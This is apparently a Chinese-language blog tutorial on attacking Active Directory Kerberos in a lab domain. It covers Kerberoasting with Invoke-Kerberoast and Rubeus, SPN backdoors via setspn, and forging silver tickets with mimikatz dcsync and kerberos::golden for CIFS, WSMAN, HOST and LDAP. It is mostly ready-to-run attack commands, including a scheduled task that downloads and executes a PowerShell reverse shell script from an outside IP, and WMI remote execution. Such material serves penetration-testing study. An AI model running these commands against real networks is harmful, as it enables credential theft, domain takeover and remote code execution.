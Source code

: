 ## Pass The Ticket

Kerbreos 除了第一步AS_ERQ是使用时间戳加密用户hash验证之外，其他的步骤的验证都是通过票据，这个票据 可以是TGT票据或者TGS票据。因为票据里面的内容主要是session_key和ticket(使用服务hash加密的，服务包括krbtgt)，拿到票据之后。我们就可以用这个票据来作为下阶段的验证了。

这个问题会新开一篇文章来讲

## kerberosting

和AS-REP Roasting很像，但是位于不同的阶段,爆破的位置也不同.AS_REP Roasting通过爆破最外层的enc_part来获取用户的明文。

TGS_REP里面ticket里的enc_part是使用服务的hash进行加密的，所以我们可以通过爆破获得服务的明文。

![kerberosting](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ass/kerberosting.png)

我们需要爆破的是ticket中的enc_part,这里直接使用工具来提取enc_part

自动实现工具，不需要mimikatz,普通用户权限即可

https://github.com/EmpireProject/Empire/commit/6ee7e036607a62b0192daed46d3711afc65c3921

提取出高权限用户的ID

```powershell
Invoke-Kerberoast -AdminCount -OutputFormat Hashcat | Select hash | ConvertTo-CSV -NoTypeInformation
```

![ps](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ass/ps.png)

我这里没有高权限的账户，只有一个hacker的服务账户

将得到的hash值丢去hashcat进行破解，有概率得到明文密码

同样的可以使用Rubeus进行抓取

```
Rubeus.exe kerberoast
```

### 如何扩大攻击

扩大攻击在于获取到高权限的SPN用户，注册一个SPN需要`Read servicePrincipalName` 和 `Write serverPrincipalName` 的权限，我们能够在域内查询到拥有这两个权限的服务账户并获取其权限，就能手动为高权限用户添加SPN，从而得到高权限用户的TGS票据用于爆破或建立后门

+ 后门利用

  获取SPN权限后，为指定域用户添加一个SPN

  ```
  setspn.exe -U -A VNC/DC.hack.com Administrator
  ```

  这样在域内的任意一台机器上都能获得该SPN,并拿到TGS票据

  删除SPN操作

  ```
  setspn.exe -D VNC/DC.hack.com Administrator
  ```

**问：为什么不尝试获取krbtgt的明文**

krbtgt的密码是随机的

## 白银票据

白银票据是一个有效的票据授予服务（TGS）Kerberos票据，因为Kerberos验证服务运行的每台服务器都对服务主体名称的服务帐户进行加密和签名。

多数服务不验证PAC（通过将PAC校验和发送到域控制器进行PAC验证），因此使用服务帐户密码哈希生成的有效TGS可以完全伪造PAC

TGS是伪造的，所以没有和TGT通信，意味着DC从验证过

**制作白银票据的条件**

```shell
1.域名称
2.域的SID值
3.域中的Server服务器账户的NTLM-Hash
4.伪造的用户名，可以是任意用户名.
5.目标服务器上面的kerberos服务
```

**白银票据的服务列表**

```shell
服务名称                    同时需要的服务
WMI                        HOST、RPCSS
PowerShell Remoting        HOST、HTTP
WinRM                    HOST、HTTP
Scheduled Tasks            HOST
Windows File Share        CIFS
LDAP                    LDAP
Windows Remote Server    RPCSS、LDAP、CIFS
```

**利用流程**

1.获取服务hash , sid等信息

```
mimikatz.exe
privilege::debug
lsadump::dcsync /domain:hack.com /user:DC$
```

这里以域控举例，获取到域控的hash和sid

```shell
ntlm: 9bd77ae433b8d7d9b37c6bec828f3ef4
sid: S-1-5-21-754643614-3937478331-2139222398 #不需要末尾的用户标识
```

2.伪造白银票据

```shell
kerberos::golden /domain:hack.com /sid:S-1-5-21-754643614-3937478331-2139222398 /target:DC.hack.com /service:cifs /rc4:9bd77ae433b8d7d9b37c6bec828f3ef4 /user:silver /ptt
```

参数说明

```
/domain：当前域名称
/sid：SID值，和金票一样取前面一部分
/target：目标主机，这里是DC.hack.com
/service：服务名称，这里需要访问共享文件，所以是cifs
/rc4：目标主机的HASH值
/user：伪造的用户名
/ptt：表示的是Pass TheTicket攻击，是把生成的票据导入内存，也可以使用/ticket导出之后再使用kerberos::ptt来导入
```

![silver](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ass/silver.png)

成功创建并导入，在当前主机上输入klist即可查看到让导入的票据

![klist](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ass/klist.png)

导入票据之后，就能够访问DC的共享文件夹，这是因为我们创建的时cifs服务的银票

### 其他服务的白银票据

**伪造WSMAN和HTTP的Silver Ticket进行powershell远程执行**

从Windows Server 2008开始，WinRM服务自动启动，但是不开启监听，使用`winrm quickconfig`进行配置后，将打开HTTP和HTTPS监听端口。

使用mimikatz生成两个服务的银票

```
kerberos::golden /domain:hack.com /sid:S-1-5-21-754643614-3937478331-2139222398 /target:DC.hack.com /service:wsman /rc4:9bd77ae433b8d7d9b37c6bec828f3ef4 /user:hacker /ptt
kerberos::golden /domain:hack.com /sid:S-1-5-21-754643614-3937478331-2139222398 /target:DC.hack.com /service:HTTP /rc4:9bd77ae433b8d7d9b37c6bec828f3ef4 /user:hacker /ptt
```

注入两张[HTTP](https://adsecurity.org/?page_id=183)＆[WSMAN](https://adsecurity.org/?page_id=183)白银票据后，我们可以使用PowerShell远程（或WinRM的）反弹出目标系统shell。首先New-PSSession使用PowerShell创建到远程系统的会话的PowerShell cmdlet，然后Enter-PSSession打开远程shell。

```shell
New-PSSession -Name PSC -ComputerName DC; Enter-PSSession -Name PSC
```

**获取HOST服务权限创建计划任务**

创建HOST服务的银票

```
kerberos::golden /domain:hack.com /sid:S-1-5-21-754643614-3937478331-2139222398 /target:DC.hack.com /service:HOST /rc4:9bd77ae433b8d7d9b37c6bec828f3ef4 /user:hacker /ptt
```

创建计划任务

```shell
#Check you have permissions to use schtasks over a remote server
schtasks /S some.vuln.pc
#Create scheduled task, first for exe execution, second for powershell reverse shell download
schtasks /create /S some.vuln.pc /SC weekly /RU "NT Authority\System" /TN "SomeTaskName" /TR "C:\path\to\executable.exe"
schtasks /create /S some.vuln.pc /SC Weekly /RU "NT Authority\SYSTEM" /TN "SomeTaskName" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1''')'"
#Check it was successfully created
schtasks /query /S some.vuln.pc
#Run created schtask now
schtasks /Run /S mcorp-dc.moneycorp.local /TN "SomeTaskName"
```

**伪造`ldap`的 Silver Ticket 访问目标计算机的LDAP 服务**

```
kerberos::golden /domain:0day.org /sid:S-1-5-21-754643614-3937478331-2139222398 /target:DC /rc4:9bd77ae433b8d7d9b37c6bec828f3ef4 /service:LDAP /user:administrator /ptt

lsadump::dcsync /dc:OWA2010SP3 /domain:hack.com /user:krbtgt
```

**HOST + RPCSS**

```shell
#Check you have enough privileges
Invoke-WmiMethod -class win32_operatingsystem -ComputerName remote.computer.local
#Execute code
Invoke-WmiMethod win32_process -ComputerName $Computer -name create -argumentlist "$RunCommand"

#You can also use wmic
wmic remote.computer.local list full /format:list
```

## 委派攻击

会开一篇新的详细讲

